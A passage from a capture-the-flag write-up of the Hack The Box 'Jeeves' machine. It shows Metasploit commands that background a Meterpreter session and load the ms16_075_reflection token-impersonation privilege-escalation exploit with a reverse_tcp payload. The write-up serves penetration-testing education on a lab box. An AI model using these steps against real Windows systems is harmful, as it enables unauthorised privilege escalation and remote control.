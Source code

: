 ![Exploit Check](\Images\HTB4Jeeves\pic6.png)

Looks like we have a decent number of vulnerabilities.  If this were a live pentest, I'm sure all of these would be tested for and checked/reported.  The one we're interested in for this box though is the reflection_juicy one.  This is the potato or token impersonation vulnerability.

So we're going to use that so we `background` out of the session, `show sessions` to verify the number and then get to using that exploit.

```
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/script/web_delivery) > use exploit/windows/local/ms16_075_reflection
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms16_075_reflection) > show options
```
